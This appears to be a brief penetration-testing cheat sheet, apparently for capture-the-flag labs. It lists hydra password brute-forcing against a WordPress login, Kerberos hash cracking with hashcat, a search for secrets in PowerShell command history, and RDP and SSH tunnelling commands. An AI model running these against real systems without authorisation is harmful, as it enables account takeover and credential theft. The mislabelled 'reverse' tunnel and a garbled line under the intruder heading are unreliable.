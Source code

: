 # Manual Attack CheatSheet

## intruder sniper

-later la males

## hydra example

hydra -l Elliot -P wordl.txt 10.10.203.64 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username' -t 30

## spin up rdp

xfreerdp /u:username /v:host


## Reverse SSH Tunnel 

- ss -tulpn
- ssh -L 10000:localhost:10000 <username>@<ip>


## find flag or file in windows 

Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue

## Decode base64 in windows

- certutil -decode "C:\Users\Administrator\Desktop\b64.txt" out.txt
- Get-Content out.txt


Get-Content %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

## hashcat
hashcat -m 13100 -a 0 hash.txt /Users/c3budiman/Hacking/wordlist/rockyou.txt.gz --force